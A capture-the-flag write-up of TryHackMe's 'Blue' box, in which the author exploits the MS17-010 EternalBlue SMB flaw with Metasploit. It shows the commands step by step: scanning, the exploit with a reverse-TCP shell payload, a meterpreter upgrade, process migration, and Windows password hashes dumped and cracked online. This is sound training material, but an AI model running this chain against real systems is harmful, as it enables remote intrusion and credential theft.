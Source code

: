 ## TryHackMe - (Eternal)Blue Methodology

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundamentals.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nessus
- Metasploit.

### Methodology
#### Objectives/Flags
1. Flag1, This flag can be found at the system root.
2. Flag2, This flag can be found at the location where passwords are stored within Windows.
3. Flag3, this flag can be found in an excellent location to loot.

#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra ```-Pn``` into the options.
```bash
nmap -T4 -Pn <TargetIP>
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
```
With this portscan I can see that there are several Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```bash
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and commands. After booting it up I searched for the vulnerability code ```ms17-010``` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```bash
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
```
The following option was reccomended by the box's objective guide and I do not have a clear idea of what is does.
```bash
      set payload windows/x64/shell/reverse_tcp 
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First, I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```bash
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set session 1
  run
```
A new session should spawn which I opened with ```session 2```.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
From here I verified the identity.
```bash
get system
  Already running as SYSTEM
shell
  whoami
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```bash
ps 
  migrate 692
```
According to the walkthrough Metasploit can immediately dump the Windows machine's hashes. This was so much more convenient than my attempts at extracting hashes in the Blueprint box. Instead of messing around with Hashcat however, I went straight to crackstation.
```
hashdump
  Administrator:500:<Hash>:<Hash>:::
  Guest:501:<Hash>:<Hash>:::
  Jon:1000:<Hash>:<Hash>:::
    https://crackstation.net/
      Insert <hash> -> crack
        <password>
```

After this was successful, I got to work on the flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Navigated to C:\
  flag1.txt
    cat flag1.txt
		
Listing: C:\Windows\system32\config
  flag2.txt
    cat flag2.txt

Listing: C:\Users\jon\Documents
  flag3.txt
    cat flag3.txt
  ```
---
### After-action
#### What I've learned
I really enjoyed this box as I got to explore some more powerful industry tools. Fortunately, I've had experience with vulnerability scanners in the past so Nessus was really straight forward and familiar to use, navigate and understand. Metasploit, however was something I had never really used before but have heard so much about so getting my hands on with an objective was fantastic. I will definitely look to leverage its power in future exercises.

#### What I would've done differently
I would've liked to use screenshots to go along with these blog entries however the administration behind it would probably do my head in. I would however be looking into options of screen-recoding for my own sake of documentation and will allow me to better reflect on my steps.
